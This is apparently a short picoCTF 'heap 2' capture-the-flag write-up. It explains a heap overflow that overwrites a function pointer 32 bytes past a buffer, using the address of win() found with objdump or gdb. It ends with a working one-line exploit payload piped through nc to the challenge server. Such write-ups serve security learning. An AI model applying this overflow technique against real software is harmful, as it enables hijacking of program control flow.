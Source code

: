 # heap 2

```c
void check_win() { ((void (*)())*(int*)x)(); }
```

The write buffer is **32** bytes away from x, which has to be overwritten to address of function `win()` \
objdump or gdb gives the address: `0x00000000004011a0`

Pass this (after taking care of endianness) with 32 a's:

```shell
echo -e -n "2\naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xa0\x11\x40\x00\x00\x00\x00\x00\n1\n3\n4\n" | nc mimas.picoctf.net 53134
```
